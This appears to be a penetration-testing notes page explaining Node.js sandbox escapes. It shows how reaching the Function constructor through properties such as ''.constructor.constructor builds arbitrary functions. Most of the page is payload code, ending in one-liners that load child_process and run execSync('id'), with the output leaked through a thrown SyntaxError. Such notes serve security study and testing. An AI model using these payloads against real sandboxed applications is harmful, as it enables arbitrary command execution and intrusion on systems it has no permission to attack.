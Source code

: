 ## nodejs sandbox bypass 101

### this payloads or techniques not necessarily to work on real targets , it just explainging how to do it 

### constructor function 
A constructor function in JavaScript is a special type of function that is used to create and initialize objects , so we can use it to create functions since functions are objects in javascript


### the idea of bypass is to access the constructor property of a function to create your evil functions bypassing restricted rules which is set in the sandbox , so  create object access function or any property which reffer to a function then access its constructor property which refers to the constructor function (note `"".constructor()` is a function )

![Screenshot_20230808_161658](https://github.com/kiro6/penetration-testing-notes/assets/57776872/bef0f085-20c3-428f-810e-5271d67d4de2)

  
- examples 
```js

# ''.split.constructor()() === ''["split"]["constructor"]("console.log(1)")()

[].push.constructor("console.log(1)")()

"".split.constructor("console.log(1)")()

"".constructor.constructor("console.log(1)")()

''["sub"]["constructor"]('console.log(1)')()

Number(1).constructor.constructor("console.log(1)")()

```

### we have another technique to understand it i recommend reading [this](http://kangax.github.io/nfe/)

```js

(function (y) {return ''[!y?'__proto__':'constructor']['constructor']})('constructor')('console.log(1)')()

(function(prop) { return ''[prop ? "constructor":"benign"  ][prop] })("constructor")("console.log(1)")()

(function({anything}){return anything.constructor})({anything:"".split})("console.log(1)")()

```

### ofcourse we can do more than just console , here is how to import modules inside the evil functions you create

```
process.mainModule.require("child_process").execSync("id")

global.process.mainModule.constructor._load("child_process").execSync("id")
```

### final examples 

```
(function (y) {return ''[!y?'__proto__':'constructor']['constructor']})('constructor')('throw new SyntaxError(process.mainModule.require(\"child_process\").execSync(\"id\").toString())')()


"".sub.constructor('throw new SyntaxError(process.mainModule.require(\"child_process\").execSync(\"id\").toString())')()


(function({book}){return book.constructor})({book:"".sub})("console.log(global.process.mainModule.constructor._load(\"child_process\").execSync(\"id\").toString())")()

```
